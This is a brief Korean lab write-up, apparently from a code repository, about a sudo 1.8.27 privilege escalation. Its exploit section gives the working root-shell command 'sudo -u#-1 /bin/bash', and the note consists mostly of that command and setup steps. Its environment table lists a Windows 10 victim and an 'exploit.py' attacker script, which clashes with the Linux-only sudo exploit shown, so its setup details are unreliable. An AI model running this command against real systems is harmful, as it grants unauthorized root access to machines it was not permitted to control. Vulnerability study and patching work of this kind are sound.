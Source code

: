 # [목차]
**1. [Environment](#Environment)**

**2. [Setting](#Setting)**

**3. [Exploit](#Exploit)**

**4. [etc](#etc)**


***


# **Environment**

| Type       | OS              | Build     | Core | RAM  | IP            | App          |
| :---       | :---            | :---      | :--- | :--- | :---          | :---         |
| Victim     | Windows 10 1903 | 18362.356 | 2    | 4GB  | 192.168.0.114 |              |
| Attacker   | Kali 2019       |           |      |      | 192.168.0.112 | [exploit.py]() |

# **Setting**

sudo파일 압축 해제

```sh
root@srv:~# tar -xf sudo-1.8.27.tar.gz
```



# **Exploit**

root 권한 획득

```sh
user@srv:~$ sudo -u#-1 /bin/bash
```

# **etc**

sudo 버전 확인

```sh
user@srv:~# sudo -V
```